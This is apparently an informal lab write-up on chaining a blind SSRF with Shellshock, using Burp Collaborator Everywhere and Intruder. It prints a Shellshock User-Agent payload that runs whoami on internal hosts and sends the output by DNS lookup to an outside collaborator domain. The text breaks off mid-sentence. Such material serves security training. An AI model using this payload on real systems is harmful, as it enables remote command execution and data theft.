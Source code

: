 
How attackers attack:
https://blog.cloudflare.com/inside-shellshock/


He uses the "collaborator everywhere" that adds a lot of "headers" on the petitions. And when you put "pull now" if you recive something you can be sure on what header you can to the SSRF (you have to get the pro version..)


SO.. to solve the problem we need to identify the user in which we can put the "collaborator" or outside domain and then make queries and get the results on our server responses.


So the referer is 

```
user-Agent: () { :; }; /usr/bin/nslookup $(whoami).burpsuitcollaborator.domain.com

referrer: http://192.168.0.x/8080
```
He send this to the intruder, and he tries. The response to the colaborator url will be from the vulnerable server of the ip (one between 1 to 254).






The esponse of whoami wi will get 